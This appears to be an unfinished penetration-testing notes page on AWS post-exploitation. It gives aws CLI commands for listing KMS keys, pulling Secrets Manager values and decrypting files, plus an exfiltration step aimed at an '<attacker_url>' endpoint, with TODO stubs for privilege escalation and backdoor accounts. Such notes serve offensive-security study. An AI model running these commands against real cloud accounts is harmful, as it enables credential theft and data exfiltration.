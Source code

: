 # 04 - Post Exploitation

## Enumeration

### Authenticated Enumeration

```
$ aws [--endpoint-url=http://<IP>:4566] kms list-keys

$ aws [--endpoint-url=http://<IP>:4566] secretsmanager list-secrets

$ aws [--endpoint-url=http://<IP>:4566] secretsmanager get-secret-value --secret-id "<arn_ID>"
```

## Privilege Escalation

TODO: Write conditions to escalate to gain full control of the s3 bucket servers

## Credential Access and Dumping

Decrypt the file with a master key.

```
$ aws kms decrypt [--endpoint-url=http://<IP>:4566] --ciphertext-blob fileb:///path/to/file.enc --query Plaintext --output text
```

Find the key

```
$ aws kms decrypt [--endpoint-url=http://<IP>:4566] --ciphertext-blob fileb:///path/to/file.enc --query Plaintext --output text --key-id=<Key_ID> 
```

Decrypt the file with a supported encryption algorithm.

```
$ aws kms decrypt [--endpoint-url=http://<IP>:4566] --ciphertext-blob fileb:///path/to/file.enc --query Plaintext --output text --key-id=<Key_ID> --encryption-algorithm <encryption_algorithm>
```

## Data Exfiltration

TODO: Setup MinIO on a server to exflitrate s3 bucket instances and write conditions before executing this phase

```
$ aws s3 --endpoint=http[s]://<attacker_url> --no-sign-request --recursive ls s3://<s3_bucket_IP>
```

## Maintaining Access

TODO: Provide steps for creating user accounts with admin access

---
## References

- [Privilege Escalation in AWS - Part 01](https://mystic0x1.github.io/posts/AWS-Privilege-Escalation-Part-01/)

- [Privilege Escalation in AWS - Part 02](https://mystic0x1.github.io/posts/AWS-Privilege-Escalation-Part-02/)

- [Methods to Backdoor an AWS Account](https://mystic0x1.github.io/posts/methods-to-backdoor-an-aws-account/)

- [MinIO](https://min.io)

- [minio-backup-s3](https://github.com/fandoghpaas/minio-backup-s3)